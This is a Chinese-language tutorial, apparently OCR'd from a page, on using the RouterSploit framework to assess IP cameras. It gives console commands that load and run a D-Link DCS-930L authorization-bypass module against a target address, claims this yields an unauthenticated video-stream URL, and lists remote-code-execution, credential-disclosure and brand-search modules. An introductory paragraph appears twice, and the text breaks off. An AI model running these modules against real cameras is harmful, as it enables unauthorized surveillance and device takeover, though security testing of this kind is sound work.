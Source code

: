 使用对应的模块

设置目标

运行

具体命令如下：

text
rsf > use exploits/cameras/dlink/dcs_930l_authorization_bypass
rsf (D-Link DCS-930L Authorization Bypass) > set target 192.168.1.100
rsf (D-Link DCS-930L Authorization Bypass) > run
如果成功，模块会返回一个URL，通过这个URL可以直接访问摄像头的视频流而不需要输入用户名和密码。

另外，RouterSploit中还有其他摄像头模块，例如：

text
- exploits/cameras/dlink/dcs_9xx_remote_code_execution
- exploits/cameras/dlink/dcs_9xx_credentials_disclosure
这些模块的使用方法类似。

需要注意的是，由于摄像头的固件版本和型号可能不同，漏洞利用可能不会总是成功。因此，在测试之前最好确认摄像头的型号和固件版本是否在漏洞影响范围内。

最后，请务必在合法和授权的范围内使用这些工具。

好的，我们来专门详细讲解 RouterSploit 在摄像头设备安全评估中的用法。摄像头作为 IoT 设备的重要类别，存在大量已知漏洞，是 RouterSploit 的重点检测目标。




好的，我们来专门详细讲解 **RouterSploit 在摄像头设备安全评估中的用法**。摄像头作为 IoT 设备的重要类别，存在大量已知漏洞，是 RouterSploit 的重点检测目标。

---

## 一、摄像头设备的安全特点

摄像头与路由器相比有几个显著不同的安全特点：
- **更多服务端口**：除了 HTTP/HTTPS，还常运行 RTSP、RTMP、ONVIF 等媒体流协议
- **复杂的 Web 接口**：通常有视频管理、用户管理、网络配置等多个功能模块
- **媒体流安全**：视频流可能被窃取或劫持
- **物理安全影响**：直接涉及隐私和监控安全

---

## 二、摄像头专用模块

RouterSploit 包含大量针对主流摄像头品牌的专用模块：

### 1. 搜索摄像头相关模块
```bash
rsf > search camera
rsf > search dlink    # D-Link 摄像头
rsf > search tplink   # TP-Link 摄像头  
rsf > search hikvision # 海康威视
rsf > search dahua    # 大华股份
rsf > search axis     # Axis 摄像头
```
